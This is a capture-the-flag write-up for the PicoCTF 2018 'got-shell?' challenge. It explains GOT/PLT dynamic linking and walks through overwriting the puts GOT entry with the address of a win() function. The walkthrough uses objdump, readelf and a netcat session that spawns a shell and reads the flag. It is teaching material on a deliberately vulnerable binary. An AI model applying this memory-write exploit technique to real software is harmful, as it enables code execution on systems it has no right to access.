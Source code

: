 ```yaml
---
title:  PicoCTF 2018 - got-shell?
description: You're only 4 bytes away from pwn - assuming you can put them in the right spot.
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - got-shell?

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

This is one of those problems that isn't a "bug" so much as an [intentional learning opportunity]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/shellcode.md %}).

```c
void win() {
  system("/bin/sh");
}

// ...
puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");
scanf("%x", &address);

sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
puts(buf);
scanf("%x", &value);

sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
puts(buf);
*(unsigned int *)address = value;
```

In essence, the program is asking you to stomp on any 4 bytes you'd like in memory.

## Strategy

This problem gives us a *very* simple arbitrary memory write exploit. Obviously, given the existence of the `win()` function, we should use that memory write to somehow call `win()`.

The secret to this problem is understanding the role of the "`.got.plt`" section of a binary. The intricacies of how the dynamic linker resolves symbols are probably best left to the experts. If you're interested in this kind of thing, then I highly recommend the following youtube video about the topic:

<div class="embed-responsive embed-responsive-16by9">
<iframe width="560" height="315" style="display: block; margin: 0 auto;" src="https://www.youtube-nocookie.com/embed/dOfucXtyEsU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>

Once we understand the role of the "`.got.plt`" segment, it will become clear how an arbitrary 4 byte memory write will help us execute the `win()` function. If you already know - the try the challenge now by running  `nc 2018shell.picoctf.com 3582`.

## Background Info

In a nutshell, when we link against libc we don't know ahead of time exactly where it will be in memory. This is particularly true if libc is compiled with PIE, and ASLR is turned on, but in general it is true because we expect libc to be mostly cross-compatible, and your binary may be running against a significantly newer version of libc than what the compiler had access to when it created the binary. We say that the binary is dynamically-linked against libc. The binary contains a list of dynamic symbols that it must "look-up" if/when it needs them. If we need `stdin` or `stdout`, for instance, then those symbols are located in `libc`. If we need the `puts` function, then the address we need to call is also inside `libc`. Sometimes the symbols will be looked up by `ld-linux.so`, which is the dynamic linker/loader used by linux systems when the executable first starts. Other times, the compiler will put in a small shim that will wait to resolve the symbol until the first time it is required (so-called lazy binding).

Generally the addresses of these dynamic symbols will end up in one of two sections in memory: either the "`.got`" data section (typically used for the address of global variables), or the "`.got.plt`", which is in data memory (not code, so not in an executable segment) that contains the address of functions. The compiler also emits small "thunks" for every function with dynamic linkage. These "thunks" are small bits of code (in an executable segment) that essentially "jump" to a corresponding address inside the "`.got.plt`" table (when lazy-binding is involved they also do a little bit more). When you call `puts` from code, you actually call a small "thunk" inside your program that loads the address for the `puts` symbol from the "`.got.plt`" table and then jumps to it.

Unless extreme measures are taken (so called "FULL-RELRO"), the "`.got.plt`" table is writeable (this is required if lazy-binding is to be used). If we over-write data inside the `.got.plt` table, then the next time the "thunk" is called, it will actually jump to whatever address we desire. We'll use this to call the `win()` function and grab the flag.

## Exploitation

First up, let's figure out the address of `win()`.

```
$ objdump -t ./auth | grep win
0804854b g     F .text  00000019              win
```
{:.contains-term}

Next, we need to figure out a dynamicly linked function that is called AFTER the memory stomp that we can override with our own function.

```c
*(unsigned int *)address = value;

puts("Okay, exiting now...\n");
exit(1);
```

In this case, either `puts` or `exit` should work - lets use `puts`. Now, what is the address for the `puts` symbol inside of the "`.got.plt`" segment?

```
$ readelf -r ./auth | grep puts
0804a00c  00000107 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
```
{:.contains-term}

In this case, the answer is `0x0804a00c`, which is where we want to write our new function pointer to `win()`, which is at `0x0804854b`.

Lets, try it out by connecting to `nc 2018shell.picoctf.com 3582`:

```
$ nc 2018shell.picoctf.com 3582
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
0x0804a00c
Okay, now what value would you like to write to 0x804a00c
0x0804854b
Okay, writing 0x804854b to 0x804a00c
ls
auth
auth.c
flag.txt
xinet_startup.sh
cat flag.txt
picoCTF{===REDACTED===}
```

Awesome! Now that we know more about the "`.got`", let's head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) and tackle the next challenge.
